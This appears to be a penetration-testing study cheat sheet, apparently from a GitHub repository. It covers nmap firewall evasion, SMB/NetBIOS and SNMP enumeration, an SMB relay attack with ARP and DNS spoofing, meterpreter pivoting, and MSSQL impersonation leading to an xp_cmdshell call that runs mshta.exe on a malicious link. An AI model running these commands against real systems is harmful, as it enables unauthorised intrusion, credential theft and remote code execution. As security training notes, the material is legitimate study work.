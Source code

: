 # Network

## Firewall and IDS

**Detect and evasion:**
- `-sA` (scan ACK ping) can be use to detect firewall, the result show `filtered` or `unfiltered`
- `-f` fragment packet. `--mtu` (minimum transfer unit size) custom packet size (`-f --mtu 32` packet with 32 bytes of data)
- `-D` decoy `-D 10.10.21.1,10.10.21.2`
- `g` Change source port `-g 53`
- `--data-length 200`
- `-n` disable DNS resolution
- `--ttl` set time to live time

## SMB and NetBIOS Enum

Both is file sharing service but different technology
- NetBIOS is an API and set of network protocols, provide communication service between device on local network. NetBIOS include:
  - Name services (NetBIOS-NS) ~ 137
  - Datagram services (NetBIOS-DGM) ~ 138
  - Sessions service (NetBIOS-SSN) ~ 139

Tools:
- `nbtscan <target>` Scan network for NetBIOS name
- `nmblookup -A <target>`
- `nmap -sU -p 137 <target>` Check for Name Service of NetBIOS is running (it UDP)
  - `nmap -sU -sV -p 137 <target> --script nb_stat.nse -n` We can try this script to get the service name

**For Smb** 
- `nmap -p445 --script smb-protocols <target>` Check for protocols that target supported 
- `nmap -p445 --script smb-security-mode <target>` Security level that SMB config
- `nmap -p445 --script smb-enum-users.nse <target>` Enum user
- Use `hydra` to crack password
- Or we use `windows/smb/psexec` for connection, set payload to reverse_tcp
- After exploit and have meterpreter, we can `run autoroute -s <target_2_subnet>` to gain access to target 2 that only be connect via target 1
  - Or we can setup `proxychains` and module `socks` of `msf` to access the target from host machine 
  - Proxychanins usually run on port `9050`, see config in `/etc/proxychains4.conf`
  - After that we use `use auxiliary/server/socks_proxy`, `set SRVPORT 9050` `set VERSION 4a ` -> run
  - Now we can access the target 2 from host command with `proxychains nmap <target2> -sT -Pn -sV -p 445`
- shell `net view <target>` view share of target
- `net use D: \\<target>\<share>` Assign disk to share -> `dir D:`

## SNMP

Protocols Use for monitor and manage network devices, like routers, switch, printer, fax, ...
- Application protocols
- Have 3 part:
  - SNMP manager
  - SNMP agent
  - Management infomation base (MIB): Datatbase that define structure of data available through SNMP, each piece of data have unique ID call `OID`
- Port: 161 for SNMP query, 162 for SNMP trap (Infor agent send to Manager)

**Exploit**
- `nmap -sU -p 161 <target>` -> `nmap -sU -p161 --script=snmp-* <target>` collect infor from script 
- Brute for communication string `nmap -sU -p 161 --script=snmp-brute <target>`
  - `snmp-win32-users` enum user on system -> use for hydra later
  - `snmp-processes` enum process run on system
    - `snmp-win32-services` enum services run on system
  - `snmp-interface` enum network interface of system
    - `snmp-netstat` enum net stat
  - `snmp-softwares` enum software install on system
- For more info, use `snmpwalk -v 1 -c public <target>`, `-v` is version, `-c` is channel that we detected with `snmp-brute`

## SMB relay

Is a type of attack where attacker intercept SMB traffic, change it and relays it to a legitimate server to gain access. Steps of attack:
- Interception
- Capture authentication
- Relay to a legitimate server
- Gain Access

How to exploit:
- Open `msfconsole` -> search `smb_relay` use reverse_tcp payload 
  - `set srvhost <host_ip>` `set lhost <host_ip>`
  - `set smbhost <target_ip>`
- Setup dns spoofing by `echo "<host_ip> *.<target_domain>" > dns` Ex: `echo "10.10.1.1 *.example.com" > dns`
  - Run `dnsspoof -i eth1 -f dns` `-i` network interface, `-f` file
- Run `arpspoof -i eth1 -t <victim_ip> <smb_server>` and `echo 1 > /proc/sys/net/ipv4/ip_forward` for perform an ARP poisoning attack to intercept and manipulate traffic between a victim and a target system.

## MSSQL User impersonation to RCE

Port: 1433

- `nmap --script ms-sql-info -p 1433 <target>` Enumeration some info.
- Use `mssqlclient.py <user>:<pass>` to access (scnerio: We already have user accout)
  - `select @@version;`
  - Default user control account for mssql is `sysadmin`
  - `select loginname from syslogins where sysdamin = 1;` Check if the user belong to `sysadmin` role
  - `enable_xp_cmdshell` Check if we can open cmd shell
- Check any user impersonate available with `SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'`
  - After output the user that we can impersonate. 
  - `select system_user` View user -> `execute as login = '<user>'`
  - `enable_xp_cmdshell` -> Setup `hta-server` module -> `exec xp_cmdshell "mshta.exe <malicous_link>`
